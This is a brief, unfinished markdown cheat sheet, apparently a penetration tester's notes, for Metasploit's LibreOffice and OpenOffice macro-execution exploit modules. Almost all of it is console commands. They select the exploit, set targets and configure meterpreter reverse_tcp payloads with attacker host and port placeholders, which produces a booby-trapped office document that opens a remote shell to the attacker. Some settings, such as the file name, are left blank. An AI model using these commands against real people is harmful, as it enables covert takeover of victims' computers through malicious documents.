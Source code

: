 # Metasploit

TODO: Fill in the information

## LibreOffice Macro

```
msf > use exploit/multi/fileformat/libreoffice_macro_exec

set filename 
```

## OpenOffice Macro

```
msf > use exploit/multi/misc/openoffice_document_macro

set target 0

set payload windows/x64/meterpreter/reverse_tcp
```

```
set target 1

set payload python/meterpreter/reverse_tcp
```

```
set lhost <IP>

set lport <PORT>
```

---
## References

- [Rapid7: Metasploit Framework - Exploit FileFormat LibreOffice Macro Exec](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/fileformat/libreoffice_macro_exec.md)

- [Rapid7: Metasploit Framework Exploit Miscellaneous OpenOffice Macro Exec](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/misc/openoffice_document_macro.md)